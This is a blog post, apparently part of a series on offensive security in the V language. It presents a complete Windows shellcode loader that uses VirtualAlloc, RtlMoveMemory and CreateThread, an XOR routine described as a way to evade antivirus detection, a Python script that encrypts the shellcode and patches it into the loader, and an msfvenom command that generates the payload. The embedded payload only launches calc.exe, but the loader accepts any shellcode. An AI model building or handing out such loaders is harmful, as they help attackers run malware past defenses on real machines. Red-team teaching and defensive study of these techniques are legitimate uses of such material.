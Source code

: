 ```yaml
---
layout: single
title:  "OffensiVe Security with V 3 - XOR"
date:   2022-07-20 16:54:50 -0500
categories: app-development
tags: vlang windows
permalink: /:categories/:title/

header:
  overlay_image: /images/cloudflare1/banner.png
  overlay_filter: rgba(0, 0, 0, 0.7)
  actions:
     - label: "View Code"
       url: "https://github.com/alexfrancow/offensive-vlang"
  
---
```


In the previous part of this series of posts, the [injection process](https://alexfrancow.github.io/app-development/OffensiVe-Security-with-V-Shellcode-Execution/) of a **shellcode** in **V** was detailed, in this part another **injection technique** with **XOR encryption** will be investigated in order to mitigate **AV defenses**.

> Previous part in: https://alexfrancow.github.io/app-development/OffensiVe-Security-with-V-Shellcode-Execution/

## Process Injection with XOR encrypted payload

From a basic **shellcode** injection it is possible to **encrypt** the payload in order to make malware reversing difficult or even reduce the number of **AV** detections. An **XOR encryption** of the shellcode will be implemented.

To do this, the following code will be used, which shows a memory injection of a shellcode.

`4_XORShellcode.v`

```c
module main
import time

#flag -luser32
#flag -lkernel32

fn C.VirtualAlloc(voidptr, u32, u32, u32) voidptr
fn C.RtlMoveMemory(voidptr, voidptr, u32)
fn C.CreateThread(voidptr, u32, voidptr, voidptr, u32, &u32) voidptr

fn inject(shellcode []byte) bool {
    println('Creating virtualAlloc')
    address_pointer := C.VirtualAlloc(voidptr(0), usize(sizeof(shellcode)), 0x3000, 0x40)

    println('WriteProcessMemory')
    C.RtlMoveMemory(address_pointer, shellcode.data, shellcode.len)

    println('CreateRemoteThread')
    C.CreateThread(voidptr(0), u32(0), voidptr(address_pointer), voidptr(0), 0, &u32(0))
    time.sleep(1 * time.second)
    return true
}

fn main() {
    shellcode := []
    inject(shellcode)
}
```

>    time.sleep() is now more flexible and consistent, like in Go:
    time.sleep(10 * time.second) instead of time.sleep(10)
    time.sleep(10 * time.millisecond) instead of time.sleep_ms(10)


Encrypting the shellcode is useful for bypassing **AVs** or making reverse engineering difficult. In this case, it will be obtained by adding a **function** called **XOR** `fn xor` whose utility is to perform an **XOR decryption** with a **private key**. This is a **symmetric encryption**, so it is possible to use the same key for encryption and decryption.

```c
fn xor(shellcode []byte, key []byte) []byte {
    mut output := []byte{}
    for i := 0; i < shellcode.len; i++ {
        output << shellcode[i] ^ key[i % key.len]
    }
    return output
}

fn main() {
    key := "besecteam"
    EncryptedShellcode := [ byte(0xb8), 0xa8, 0xcd, ...]
    DecryptedShellcode := xor(EncryptedShellcode, key.bytes())
    inject(DecryptedShellcode)
}
```

After adding the function in the **V script**, it is necessary to encrypt a shellcode with the same private key. For this, the following script in **Python** will be developed.

`4_XORShellcode_cipher.py`

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '[ byte(0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' ]'
    ciphertext = ciphertext[:11] + ')' + ciphertext[11:]
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
key = "besecteam"

## payload calc.exe
plaintext = b'\xda\xcd\xbe\xa9\xf7\x04\x1e\xd9t$\xf4Z+\xc9\xb111r\x18\x83\xc2\x04\x03r\xbd\x15\xf1\xe2U[\xfa\x1a\xa5<r\xff\x94|\xe0\x8b\x86Lb\xd9*&&\xca\xb9J\xef\xfd\n\xe0\xc90\x8bY)R\x0f\xa0~\xb4.ks\xb5w\x96~\xe7 \xdc-\x18E\xa8\xed\x93\x15<vG\xed?W\xd6ffw\xd8\xab\x12>\xc2\xa8\x1f\x88y\x1a\xeb\x0b\xa8S\x14\xa7\x95\\\xe7\xb9\xd2Z\x18\xcc*\x99\xa5\xd7\xe8\xe0q]\xebB\xf1\xc5\xd7s\xd6\x90\x9c\x7f\x93\xd7\xfbc";p\x9f\xaf\xbaW\x16\xeb\x98ss\xaf\x81"\xd9\x1e\xbd5\x82\xff\x1b=.\xeb\x11\x1c$\xea\xa4\x1a\n\xec\xb6$:\x85\x87\xaf\xd5\xd2\x17z\x92-R\'\xb2\xa5;\xbd\x87\xab\xbbk\xcb\xd5?\x9e\xb3!_\xeb\xb6n\xe7\x07\xca\xff\x82\'y\xff\x86K\x1c\x93K\xa2\xbb\x13\xe9\xba'

ciphertext, p_key = xor_encrypt(plaintext, key)

# open and replace our payload in C++ code
tmp = open("./4_XORShellcode.v", "rt")
data = tmp.read()
data = data.replace('shellcode := []', 'shellcode := ' + ciphertext)
tmp.close()
tmp = open("./4_XORShellcode_mod.v", "w+")
tmp.write(data)
tmp.close()
```

The payload will be generated with **msfvenom** and added to the script.

```bash
msfvenom -a x86 -p windows/exec CMD=calc.exe -f c -b '\x00' \
  -f raw -o calc.bin && python3 \
  -c "plaintext = open('./calc.bin', 'rb').read();print(plaintext)" | \
  xclip
```

Once the **Python** script is executed, it will generate a file called `4_XORShellcode_mod.v`.

```bash
python3 4_XORShellcode_cipher.py
v 4_XORShellcode_mod.v
```

`4_XORShellcode_mod.v` will be compiled with **V** to generate the `4_XORShellcode_mod.exe` executable.

### PoC - Demo
> The final code can be found in this repository.
 https://github.com/alexfrancow/offensive-vlang/blob/main/2_processHollowing.v

<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2022-04-25-OffensiVe-Security-with-V-2-Process-Hollowing/2022-02-28 12-52-44.gif" height="500" width="825" /></p>
